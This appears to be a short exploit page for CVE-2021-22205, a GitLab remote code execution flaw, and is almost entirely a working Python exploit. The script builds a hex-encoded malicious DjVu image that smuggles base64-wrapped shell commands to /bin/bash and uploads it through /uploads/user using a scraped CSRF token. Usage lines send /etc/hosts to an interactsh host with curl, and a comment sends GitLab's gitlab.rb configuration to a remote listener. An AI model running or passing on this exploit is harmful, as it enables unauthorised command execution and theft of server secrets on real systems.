

EXP :

```

import requests
import re
from base64 import b64encode


def run(**kwargs):
    url = kwargs.get('url')
    if '/uploads/user' in url:
        url = url.replace('/uploads/user', '')
    cmd = kwargs.get('cmd')

    _prefix = bytes.fromhex(
        '0D0A2D2D2D2D2D2D5765624B6974466F726D426F756E64617279494D76336D7852673539546B465358350D0A436F6E74656E742D446973706F736974696F6E3A20666F726D2D646174613B206E616D653D2266696C65223B2066696C656E616D653D22746573742E6A7067220D0A436F6E74656E742D547970653A20696D6167652F6A7065670D0A0D0A41542654464F524D000003AF444A564D4449524D0000002E81000200000046000000ACFFFFDEBF992021C8914EEB0C071FD2DA88E86BE6440F2C7102EE49D36E95BDA2C3223F464F524D0000005E444A5655494E464F0000000A00080008180064001600494E434C0000000F7368617265645F616E6E6F2E696666004247343400000011004A0102000800088AE6E1B137D97F2A89004247343400000004010FF99F4247343400000002020A464F524D00000307444A5649414E546100000150286D657461646174610A0928436F7079726967687420225C0A22202E2071787B'.lower())
    _suffix = bytes.fromhex(
        '7D202E205C0A2220622022292029202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020200A0D0A2D2D2D2D2D2D5765624B6974466F726D426F756E64617279494D76336D7852673539546B465358352D2D0D0A'.lower())
    data = _prefix + f"/usr/bin/echo {b64encode(cmd.encode()).decode()}|base64 -d|/bin/bash".encode() + _suffix
    with requests.Session() as session:
        response = session.get(f'{url}/users/sign_in', timeout=10, verify=False)
        csrf_token = re.findall('csrf-token" content="(.*?)"', response.text)[0]
        headers = {
            'X-CSRF-Token': csrf_token,
            'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5'
        }
        response = session.post(f'{url}/uploads/user', timeout=10, verify=False, headers=headers, data=data)
        output = response.text
        return output


if __name__ == '__main__':
    """curl -F 'file=@/etc/gitlab/gitlab.rb' ip:port"""
    import sys

    run(url=sys.argv[1],
        cmd=sys.argv[2])

Biu :
https://1.1.1.1/task/view/cbfc947aa478ce26c20bb786ee32ee35?fullscreen=1

python CVE-2021-22205.py https://content.xxx.net/ "curl -F file=@/etc/hosts http://gitlab_cve.c5x6ztf2vtc00004zc6ggn6ux7eyyyyyb.interactsh.com"
```
https://app.interactsh.com/#/ 强烈推荐


